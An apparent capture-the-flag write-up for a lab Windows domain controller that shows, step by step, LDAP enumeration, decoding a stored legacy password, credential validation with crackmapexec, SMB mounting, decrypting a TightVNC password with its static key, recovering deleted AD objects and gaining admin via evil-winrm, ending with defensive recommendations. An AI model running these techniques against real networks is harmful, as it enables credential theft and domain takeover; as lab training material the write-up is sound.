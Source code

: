 # Nmap
```bash
nmap 10.10.10.182 -sC -sV
```
13 ports open. Showing that it is also a domain controller. LDAP leaks the domain name of cascade.local

Adding that to /etc/hosts

As there is no webserver checking LDAP and SMB

# LDAP
```bash
ldapsearch -x -H ldap://10.10.10.182 -s base namingcontexts
```
Domain DC=cascade,DC=local

Then dump LDAP
```bash
ldapsearch -x -H ldap://10.10.10.182 -s sub -b 'DC=cascade,DC=local' > ldap_anon
```
Check for unique values. Which finds a legacyPwd.
```bash
cat ldap_anon | sort | uniq -c | sort -nr
	1 cascadeLegacyPwd: clk0bjVldmE=
```
b64 decode
rY4n5eva

This is r.thompson's password :)

Check with crackmapexec
```bash
crackmapexec smb 10.10.10.182 -u r.thompson -p rY4n5eva
```
This works but doesn't say pwned.

Check smb with user.
```bash
crackmapexec smb 10.10.10.182 -u r.thompson -p rY4n5eva --shares
```
Unique things.
Data and print

Using spider_plus in cme
```bash
crackmapexec smb 10.10.10.182 -u r.thompson -p rY4n5eva -M spider_plus
```

Interesting files.
- meeting notes
- recyclebin
- s.smith files
- mapdatadrive

# SMB Drives
Mount the drives
```bash
sudo mount -t cifs -o 'user=r.thompson,password=rY4n5eva' //10.10.10.182/data /mnt/data

sudo mount -t cifs -o 'user=r.thompson,password=rY4n5eva' //10.10.10.182/netlogon /mnt/netlogon
```

Check the netlogon files. No passwords :(

Audit drive? no permission to mount drive :(
password in vnc install.reg
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
```
kÏ*KnZÊ.
```
which is encrypted

# VNC

googling vnc it turns out to be tightvnc which has a static key :/
running these commands from with irb in msf6:
```ruby
fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"  
require 'rex/proto/rfb'  
Rex::Proto::RFB::Cipher.decrypt ["6bcf2a4b6e5aca0f"].pack('H*'), fixedkey
```
outputs
```
sT333ve2
```

This will be the password for s.smith
trying with cme again

```bash
crackmapexec 10.10.10.182 -u s.smith -p sT333ve2
```
Which says Pwn3d! !

# Foothold
User flag
```bash
3a48ee5fd948da5862bad545d8f3e1e0
```

Checking audit share
runAudit.bat, cascaudit.exe, casccrypt.dll

Reverse engineer the exe to return the output from line 44.
Using dnSpy.
```
w3lc0meFr31nd
```
But for what user?

Dump the sql database
```bash
sqlite3 Audit.db .dump
```
Password was for ArkSvc
Login with evil-winrm

Check privs

member of the recycle bin group?
So we can get deleted items?

Google says yes!

Get-ADObject
```powershell
Get-ADObject -SearchBase "CN=Deleted Objects,DC=Cascade,DC=Local" -Filter
{ObjectClass -eq "user"} -IncludeDeletedObjects -Properties *
```

Two files.
One which has a cascadeLegacyPwd :)
```
baCT3r1aN00dles
```
Which is the default admin password (from the note earlier)

check for the administrator user.
```powershell
net user administrator
```

The final evil-winrm
and admin :)
```shell
d5a30650809a2b377278273b7d0b7f38
```

# Clean up
Didn't add any files.

# Recommendations
Dont reuse passwords for admin accounts.
Remove the cascadeLegacyPwd field from r.thompson and tempadmin from within LDAP.
Use a better vnc type as this one has a static password, so the encryption is useless.
Dont have hardcoded credentials for an encryption algorithm (Audit.exe)
Why does s.smith need to be able to view the database?
Have a stronger password policy and have rotations every 30 days.
Disable winrm on all accounts that dont need it.



---
Creation date: 28-10-2022

Last modified date: Friday 28th October 2022
***
